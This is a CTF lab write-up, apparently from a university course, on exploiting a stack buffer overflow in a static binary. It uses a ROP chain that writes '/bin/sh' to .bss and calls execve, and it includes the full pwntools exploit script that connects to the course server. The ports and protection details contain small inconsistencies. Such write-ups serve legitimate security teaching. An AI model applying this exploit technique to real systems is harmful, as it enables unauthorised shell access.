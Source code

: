 ```yaml
---
title: Simple PWN - 0x12(Lab - `rop++`)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x12(Lab - `rop++`)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

challenge: `nc edu-ctf.zoolab.org 10004`

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char buf[0x10];
    const char *msg = "show me rop\n> ";

    write(1, msg, strlen(msg));
    read(0, buf, 0x200);

    return 0;
}
```
```makefile!
gcc -fno-stack-protector -static -o chal rop++.c
```

## Analyze
* Obviously buffer overflow!!!
* Check protector
    ```bash!
    $ checksec chal
    [*] '/home/sbk6401/NTUCS/PWN/Lab/rop++/share/chal'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    ```

* Preliminary idea is using `ROP` chain and get shell, but the problem is where can I write `/bin/sh\x00`? We can use `vmmap` to observe where section is writable and readable → `0x4c5000~0x4c800`
![](https://imgur.com/018Nk8F.png)
    ```bash!
    $ readelf -S chal
    ...
    [25] .bss              NOBITS           00000000004c72a0  000c6290
           0000000000005980  0000000000000000  WA       0     0     32
    ...
    ```
    We can use <font color="FF0000">`.bss` section(`0x4c72a0`)</font> to write parameter `/bin/sh\x00`
    * <font color="FF0000">Note that</font>, because `ASLR` is enabled, so we cannot write `/bin/sh\x00` to stack, in addition, `PIE` is unable, so that we can write and read data from `.bss` section with fixed address

## Exploit - `ROP`
1. Write `ROP` chain in `buf` parameter
    ```bash!
    $ ROPgadget --binary chal --only "pop|leave|ret|syscall" --multibr > rop_gadget
    $ vim rop_gadget
    ```
    ```python!
    pop_rax_ret = 0x447b27
    pop_rdi_ret = 0x401e3f
    pop_rsi_ret = 0x409e6e
    pop_rdx_rbx_ret = 0x47ed0b
    syscall_ret = 0x414506
    leave_ret = 0x401797
    ```
2. Construct `ROP` chain
In order to achieve our idea, we need another read to write `/bin/sh\x00` to `.bss` section
    ```python!
    ROP_read = flat(
        # call read function
        pop_rax_ret, 0,
        pop_rdi_ret, 0,
        pop_rsi_ret, 0x4c72a0,
        pop_rdx_rbx_ret, 0x100, 0,
        syscall_ret,    
    )
    ```
    Then we need another `ROP` chain to call `shell`
    ```python!
    ROP_shell = flat(
        # Get shell
        pop_rax_ret, 0x3b,
        pop_rdi_ret, 0x4c72a0,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        syscall_ret,

    )
    ```
    * Note that `0x4c72a0` is the beginning of `.bss` section
3. Send payload
    ```python!
    binsh = 0x68732f6e69622f #'/bin/sh\x00'
    r.sendafter("show me rop\n>", b'a'*0x28 + ROP_read + ROP_shell)
    r.send(flat(binsh))
    ```
4. Then we get shell and read flag
![](https://imgur.com/mLAdXz1.png)
* Whole exploit
    :::spoiler code
    ```python!
    from pwn import *

    #r = process('./chal')
    r = remote('edu-ctf.zoolab.org', 10003)
    raw_input()
    context.arch = 'amd64'

    pop_rax_ret = 0x447b27
    pop_rdi_ret = 0x401e3f
    pop_rsi_ret = 0x409e6e
    pop_rdx_rbx_ret = 0x47ed0b
    syscall_ret = 0x414506
    leave_ret = 0x401797

    binsh = 0x68732f6e69622f #'/bin/sh\x00'

    ROP_read = flat(
        # call read function
        pop_rax_ret, 0,
        pop_rdi_ret, 0,
        pop_rsi_ret, 0x4c72a0,
        pop_rdx_rbx_ret, 0x100, 0,
        syscall_ret,    
    )

    ROP_shell = flat(
        # Get shell
        pop_rax_ret, 0x3b,
        pop_rdi_ret, 0x4c72a0,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        syscall_ret,

    )

    r.sendafter("show me rop\n>", b'a'*0x28 + ROP_read + ROP_shell)
    r.send(flat(binsh))

    r.interactive()
    ```
    :::

## Appendix
This payload will call `sys_read` and read something that we send, that is `0x68732f6e69622f`(`/bin/sh\x00`), and then it'll call `sys_execve`.